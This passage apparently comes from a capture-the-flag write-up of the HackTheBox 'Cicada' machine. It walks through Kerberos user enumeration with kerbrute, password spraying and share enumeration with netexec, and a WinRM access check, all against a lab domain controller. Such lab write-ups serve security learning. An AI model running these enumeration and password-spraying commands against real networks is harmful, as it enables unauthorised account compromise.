 ### 2.8 Validating Users with Kerbrute

We confirm which accounts are valid in the domain:

``` bash
kerbrute userenum --dc 10.10.11.35 -d cicada.htb users.txt
```

![kerbrute_users_clean](kerbrute_users_clean.png)

---

### 2.9 Password Spraying with Known Password

**Note:** Password spraying tests one password across many accounts to avoid triggering account lockouts. This is especially useful when lockout policies are strict.

We test the recovered password against all valid users:

``` bash
netexec smb 10.10.11.35 -u users_clean.txt -p credentials.txt
```

![netexec_users_credentials](netexec_users_credentials.png)

The password matches the account `michael.wrightson`.

---

## 3. Foothold

### 3.1 Testing WinRM Access

We check whether `michael.wrightson` has WinRM access:

``` bash
netexec winrm 10.10.11.35 -u 'michael.wrightson' -p credentials.txt
```

![netexec_michael](netexec_michael.png)

WinRM is disabled for this account.

---

### 3.2 Enumerating Shares Accessible to Michael

We list accessible shares for this user:

``` bash
netexec smb 10.10.11.35 -u 'michael.wrightson' -p credentials.txt --shares
```

![netexec_michael_shares](netexec_michael_shares.png)

Two additional shares, `NETLOGON` and `SYSVOL`, are visible but contain no useful files.

---